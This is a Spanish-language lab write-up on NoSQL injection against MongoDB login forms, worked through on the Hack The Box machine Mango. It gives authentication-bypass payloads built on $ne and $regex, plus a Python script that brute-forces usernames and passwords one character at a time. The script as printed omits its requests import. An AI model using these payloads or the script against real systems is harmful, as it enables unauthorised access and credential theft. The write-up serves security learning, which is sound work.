## Explicación teórica

En alguna ocasión, y muy de refilón, había tenido que lidiar con bases de datos NoSQL para alguna cosa muy sencilla y puntual. Sin embargo, en cuestiones de seguridad, nunca me había topado con ellas.

No voy a explicar aquí lo que son las archiconocidas inyecciones SQL porque esto sólo pretende ser una nota personal y/o idea para una futura práctica, además de haber documentación a paladas en Internet para enterarse.

La idea principal es que poniendo el ejemplo de un formulario de login, una vez introducidos usuario y contraseña, estos se verificarán contra la BBDD NoSQL (en nuestro caso MongoDB) tal y como podría suceder con una BBDD SQL. La diferencia obvia entre una inyección SQL y una NoSQL es la gramática y la sintaxis. 

Puesto que las BBDD NoSQL no tienen un lenguaje estandarizado, haremos uso de algunos operadores para extraer información. Por ejemplo, en el caso que se comentaba de un formulario de login, podemos utilizar operadores como `$gt` (grater than, mayor que) o `$ne` (not equal, no igual a). Así las cosas, en el ejemplo del login que comentábamos, suponiendo que la petición se realiza por POST y con DATA una forma de hacer un bypass de la autenticación sería:

```http
username[$ne]=invent&password[$ne]=invent
```
Si el usuario/password no es `ìnvent` esta condición se cumple y habremos realizado el bypass de la autenticación.

De la misma forma, usando estos operadores, así como otro dedicado a las expresiones regulares: `$regex`, podremos ir extrayendo información de la base de datos. Vamos a demostrar que podemos obtener tanto los usuarios en primera instancia, como el password a partir de ellos:

```http
username[$ne]=invent&password[$regex]=r.*
```

Con esta sentencia, si el nombre de usuario no es `invent` y, además, el password cumple la expresión regular (que el valor de password empiece por r y vaya seguido de cualquier número y tipo de carácteres), tendremos una respuesta positiva de algún modo.

La idea sería ir iterando a través de todas las letras y carácteres del alfabeto con el fin de ir ensamblando los valores que nos den respuesta positiva y que, finalmente, formarán el usuario/password que buscamos.

## Caso práctico

### Authentication bypass

Veamos un caso práctico con la máquina Mango de Hack the box. 

Tenemos una pantalla de login tal que así:



Y el intento de login infructuoso, nos da como resultado una respuesta `200 OK`





Sin embargo, utilizando el primer payload que hemos visto, obtenemos un `302 Found`, que en el navegador comprobamos que se corresponde con una respuesta positiva de la base de datos y, por ende, en auténtico bypass de la autenticación:




### Extracción de usuarios y contraseñas

Para este caso, vamos a usar un script disponible en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-urlencoded-body) pero ligeramente modificado para nuestras necesidades:

```python
import urllib3
import string
import urllib
import re
import time
urllib3.disable_warnings()

username=""
password=""
u="http://laquesea/"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
     for c in string.printable: #Si excluimos la a de todas las iteraciones y el user contiene la a... no lo sacará
            payload='username=%s&password[$regex]=^%s&login=login' %(username,re.escape(password + c))
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)

            if r.status_code == 302:
               print("Found one more char : %s" % (password+c))
               password += c
```
Puesto que primero queremos extraer los usuarios, utilizaremos una inyección que lo consiga mediante `$regex` en el username y un `$ne` que se cumpla en el campo password:



Y vemos que el script funciona bien:



Puede que haya más usuarios, ahora lanzaremos el script de la misma forma pero excluyendo usuarios que empiecen por `a` (sino volvería a salir `admin`):





Claro, el problema es que si excluimos la `a` de la iteración, si el nuevo nombre de usuario la contiene, no la encontrará y no podrá seguir extrayendo el username. Sabiendo ya que el nuevo usuario empieza por `m`, actuamos en consecuencia:




Teniendo ya los nombres de usuario, vamos a obtener sus contraseñas haciendo uso de ellos, utilizando esta vez la  inyección el el campo password:










Y esta es una explicación básica, sencilla y somera de las nociones de inyecciones NoSQL.

También existe la opción, un poco menos cómoda pero más sencilla, de realizar este proceso con [Burp Suite](https://rioasmara.com/2020/08/13/nosql-injection-and-bruteforce/)

